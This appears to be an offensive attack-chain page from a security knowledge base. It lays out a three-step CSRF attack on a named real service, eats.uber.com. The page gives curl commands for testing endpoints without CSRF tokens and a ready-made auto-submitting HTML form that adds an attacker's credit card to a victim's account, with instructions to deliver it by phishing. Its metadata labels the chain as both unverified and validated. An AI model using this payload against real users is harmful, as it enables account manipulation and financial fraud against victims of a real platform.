

---
tags:
  - csrf
  - web
  - account-manipulation
  - financial-impact
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Test-for-CSRF-on-Credit-Card-Endpoint]]'
  - '[[procedures/Scan-for-Site-wide-CSRF-Vulnerabilities]]'
  - '[[procedures/Exploit-CSRF-for-Unauthorized-Actions]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:27:49.858Z'
description: >-
  A multi-step attack leveraging the absence of CSRF protections across
  eats.uber.com to forge authenticated requests, enabling actions like adding
  credit cards to victim accounts.
skill_level: intermediate
impact_level: high
id: 6788f720-c347-41f8-a47a-4e995a550751
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Site-wide CSRF Exploitation on Uber Eats for Unauthorized Account Actions

Multi-stage attack chain demonstrating a complete workflow to exploit missing CSRF protections on eats.uber.com, allowing attackers to perform arbitrary authenticated actions such as adding credit cards to victim accounts, potentially leading to financial harm or account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser Developer Tools
- [[tools/Burp-Suite]]

### Target Environment

- Web platform
- Authenticated session on eats.uber.com
- No specific ports or services beyond standard HTTPS (443)

### Initial Access Requirements

- Valid user credentials for eats.uber.com to obtain session cookies
- Attacker's website or email to host malicious payload
- Network access to the victim's browser

## Detailed Attack Procedures

### Step 1: Identify CSRF on Credit Card Endpoint
procedure: [[procedures/Test-for-CSRF-on-Credit-Card-Endpoint]]

**Objective**: Detect the absence of CSRF token validation on the credit card addition endpoint to confirm vulnerability.

**Instructions**: Use browser dev tools or Burp Suite to inspect the credit card addition form. Submit a test request without the CSRF token and observe if it succeeds.

For example, intercept the legitimate request and replay it without any token:

```bash
curl -X POST 'https://eats.uber.com/api/add-credit-card' \
  -H 'Cookie: session=valid_session_cookie' \
  -d 'card_number=4111111111111111&expiry=12/25&cvc=123' \
  --insecure
```

**Expected Output**: Successful addition of the test card without token, confirming no validation.

**Success Indicators**:
- Request accepted without CSRF token
- Card added to account

### Step 2: Scan for Site-wide CSRF Vulnerabilities
procedure: [[procedures/Scan-for-Site-wide-CSRF-Vulnerabilities]]

**Objective**: Expand testing to identify other endpoints lacking CSRF protections across the domain.

**Instructions**: Enumerate key endpoints (e.g., profile updates, order placements) using site crawling or manual inspection. Test each by omitting CSRF tokens in requests.

Use curl to test multiple endpoints:

```bash
curl -X POST 'https://eats.uber.com/api/update-profile' \
  -H 'Cookie: session=valid_session_cookie' \
  -d 'email=new@example.com' \
  --insecure
```

Repeat for other actions like address changes or order submissions.

**Expected Output**: Multiple endpoints accept requests without tokens.

**Success Indicators**:
- Widespread acceptance of token-less requests
- Confirmation of site-wide issue

### Step 3: Exploit CSRF for Unauthorized Actions
procedure: [[procedures/Exploit-CSRF-for-Unauthorized-Actions]]

**Objective**: Forge malicious requests to perform actions on behalf of the victim, such as adding fraudulent credit cards.

**Instructions**: Craft a malicious HTML page with auto-submitting forms targeting vulnerable endpoints. Host it on an attacker-controlled site and trick the victim into visiting while authenticated.

Example malicious HTML:

```html
<form action="https://eats.uber.com/api/add-credit-card" method="POST" id="csrf-form">
  <input type="hidden" name="card_number" value="attacker_card_details">
  <input type="hidden" name="expiry" value="12/25">
  <input type="hidden" name="cvc" value="123">
</form>
<script>document.getElementById('csrf-form').submit();</script>
```

Deliver via phishing email or social engineering.

**Expected Output**: Victim's account modified without their direct input.

**Success Indicators**:
- Unauthorized credit card added
- Potential for further exploitation like account takeover

## Attack Chain Summary

### Key Achievements

1. Confirmed CSRF absence on critical endpoint
2. Mapped site-wide vulnerability affecting multiple actions
3. Demonstrated high-impact exploitation leading to financial risks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
